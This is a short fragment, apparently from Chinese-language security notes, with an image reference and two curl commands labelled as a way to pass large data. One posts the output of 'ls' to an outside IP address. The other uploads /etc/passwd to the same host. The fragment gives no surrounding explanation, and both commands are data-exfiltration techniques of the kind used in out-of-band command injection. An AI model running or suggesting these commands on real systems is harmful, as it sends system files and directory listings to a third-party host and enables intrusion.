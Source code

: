 - curl传递大数据：`curl -v http://140.143.224.171:4445/p/89acfe/H34v/ -d "$(ls)"`
- curl传递大数据：`curl -v http://140.143.224.171:4445/p/89acfe/H34v/ -F file=@/etc/passwd`

